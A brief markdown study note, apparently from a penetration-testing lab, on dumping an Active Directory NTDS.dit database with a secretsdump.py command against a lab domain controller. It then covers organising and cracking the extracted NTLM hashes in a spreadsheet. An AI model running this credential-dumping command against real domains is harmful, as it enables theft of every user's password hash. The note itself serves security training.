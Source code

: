 # dumping the NTDS.dit

## What is the "NTDS.dit" ?
- The NTDS.dit is a database storing AD Data including
+ User information
+ Group information
+ security descriptors
+ password hashes

## How to dump the "NTDS.dit"
- need a valid admin account with password
```bash
secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.70.141 -just-dc-ntlm
```
- DC IP

## Crack strategy
- put hashes into excel
-> data -> text to columns -> custom delimiter: ":"
- grab NT part of hash
- crack it
- store results in new table
- add following formula in column 3 of first table(Column1:Username, Column2:Hash,Column3:Formula)
```excel
vlookup(<Field of hash>,<New table>|<Array of [<hash>,<cracked password>]>,<cracked Passwords column>,false)
vlookup(B1,Shett2|A:B,2,false)
```
- make sure everything is "TEXT" format and not general so no unwanted transforms happen(e.g. "20031937"-> 20th March 1937)


